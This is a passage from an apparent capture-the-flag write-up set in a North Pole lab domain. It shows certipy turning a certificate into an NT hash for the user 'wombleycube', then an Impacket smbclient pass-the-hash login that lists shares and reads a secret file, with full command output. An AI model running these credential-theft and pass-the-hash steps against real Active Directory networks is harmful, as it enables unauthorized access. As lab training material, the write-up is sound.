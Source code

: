 
Then we can continue with the guide to get the hash for `wombleycube`.

```
$ certipy auth -pfx w.pfx -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'wombleycube@northpole.local'
    [1] DNS Host Name: 'npdc01.northpole.local'
> 0
[*] Using principal: wombleycube@northpole.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'wombleycube.ccache'
[*] Trying to retrieve NT hash for 'wombleycube'
[*] Got hash for 'wombleycube@northpole.local': aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23
```

Option 1 returns this:
`aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23`

This didn't work with `smbclient` so I went in and used the second option this
time:
`aad3b435b51404eeaad3b435b51404ee:cf41d14e7eb9cd009b5d174b14d77d1b`

**I was connecting to the file share with the wrong username when using the hashes.**
I should connect using the wombleycube username when using its hash.

```
$ smbclient.py -hashes aad3b435b51404eeaad3b435b51404ee:5740373231597863662f6d50484d3e23 \
    -dc-ip 10.0.0.53 northpole.local/wombleycube@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Type help for list of commands
# info
[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
# shares
ADMIN$
C$
D$
FileShare
IPC$
NETLOGON
SYSVOL
# use FileShare
# ls
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 .
drw-rw-rw-          0  Wed Dec 13 01:20:30 2023 ..
-rw-rw-rw-     701028  Wed Dec 13 01:20:33 2023 Cookies.pdf
-rw-rw-rw-    1521650  Wed Dec 13 01:20:33 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Wed Dec 13 01:20:33 2023 SignatureCookies.pdf
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 super_secret_research
-rw-rw-rw-        165  Wed Dec 13 01:20:33 2023 todo.txt
# cd super_secret_research
# ls
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 .
drw-rw-rw-          0  Wed Dec 13 01:20:33 2023 ..
-rw-rw-rw-        231  Wed Dec 13 01:20:33 2023 InstructionsForEnteringSatelliteGroundStation.txt

# cat InstructionsForEnteringSatelliteGroundStation.txt
Note to self:

To enter the Satellite Ground Station (SGS), say the following into the speaker:

```

[c-c]: https://developer.chrome.com/docs/devtools/application/cookies
[comb]: https://www.youtube.com/watch?v=27rE5ZvWLU0
[linux-lpe]: https://payatu.com/blog/a-guide-to-linux-privilege-escalation/
[lug]: https://www.youtube.com/watch?v=ycM1hBSEyog
[cld]: https://www.cloudflare.com/learning/email-security/dmarc-dkim-spf/
[kusto]: https://detective.kusto.io/sans2023
[clus]: https://dataexplorer.azure.com/freecluster